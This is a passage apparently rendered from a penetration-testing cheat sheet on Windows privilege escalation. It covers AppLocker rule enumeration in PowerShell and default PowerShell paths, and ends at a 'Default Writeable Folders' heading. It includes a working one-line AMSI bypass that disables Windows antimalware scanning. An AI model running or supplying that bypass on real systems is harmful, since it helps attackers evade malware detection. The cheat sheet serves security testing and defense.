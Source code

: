 ### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='42'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1228' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#applocker-enumeration)AppLocker Enumeration

- With the GPO
- HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2 (Keys: Appx, Dll, Exe, Msi and Script).

List AppLocker rules
PS C:\>  $a  =  Get-ApplockerPolicy  -effective
PS C:\>  $a.rulecollections

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='43'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1243' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#powershell)Powershell

Default powershell locations in a Windows system.
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
Example of AMSI Bypass.

PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='44'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1278' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#default-writeable-folders)Default Writeable Folders
